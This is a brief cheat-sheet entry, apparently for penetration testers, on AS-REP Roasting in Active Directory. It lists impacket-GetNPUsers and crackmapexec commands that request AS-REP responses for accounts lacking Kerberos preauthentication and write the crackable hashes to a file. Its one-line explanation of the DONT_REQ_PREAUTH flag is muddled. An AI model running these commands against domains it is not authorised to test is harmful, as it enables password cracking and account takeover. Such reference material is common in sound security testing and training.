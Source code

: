 # AS-REP Roasting
If a domain user does not have Kerberos preauthentication 'DONT_REQ_PREAUTH' enabled, an AS-REP can be successfully requested for the user. Getting a TGT.
`impacket-GetNPUsers '<DOMAIN>/' -dc-ip <IP> -usersfile <USERLIST> -no-pass` (Users from file)
`impacket-GetNPUsers '<DOMAIN>/<USER>:<PASS>' -request -outputfile HASH` (All from domain)
`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT.TXT>`

Check output & dc-ip & request